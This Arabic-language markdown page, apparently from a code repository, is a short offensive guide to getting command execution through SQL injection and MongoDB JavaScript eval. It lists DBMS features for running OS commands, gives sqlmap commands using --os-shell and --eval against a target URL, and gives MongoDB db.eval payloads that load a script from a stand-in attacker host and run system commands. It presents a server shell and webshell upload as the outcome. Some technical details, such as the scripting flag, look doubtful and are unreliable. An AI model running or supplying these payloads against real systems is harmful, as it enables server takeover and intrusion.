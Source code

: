 
# 🧪 المحاولة #1: SQL Injection + Command Execution

### ⚙️ الفكرة:
بعض أنظمة SQL تسمح بتنفيذ أوامر خارجية عبر ميزات مثل:

| DBMS | طريقة التنفيذ |
|------|----------------|
| MySQL | `INTO OUTFILE` / `sys_exec()` |
| MSSQL | `xp_cmdshell` |
| PostgreSQL | `COPY` + Reverse Shell |
| Oracle | `DBMS_PIPE`, `Java` |

### 💥 الاستغلال مع sqlmap:
```bash
sqlmap -u "http://target.com/page?id=1" --os-shell
```

أو تنفيذ أمر مباشرة:
```bash
sqlmap -u "http://target.com/page?id=1" --eval="import os; os.system('id')"
```

### 📌 النتيجة:
- Shell مباشر على الخادم.
- إمكانية رفع Webshell.

---

# 🧪 المحاولة #2: MongoDB + JavaScript Eval

### ⚙️ الفكرة:
MongoDB يدعم تنفيذ JavaScript عبر واجهات API إذا لم يتم تعطيل الميزة (`--noscripting=false`).

### 💥 الاستغلال:
```javascript
db.eval(function() {
    return JSON.stringify(load("http://hacker.com/shell.js"));
});
```

أو تنفيذ JS محلي:
```javascript
db.collection.insert({ a: 1 });
db.eval("function myfunc() { return system('whoami'); } return myfunc();");
```

### 📌 النتيجة:
- تنفيذ أوامر محلية.
- إمكانية رفع ملف تنفيذي أو Webshell.

---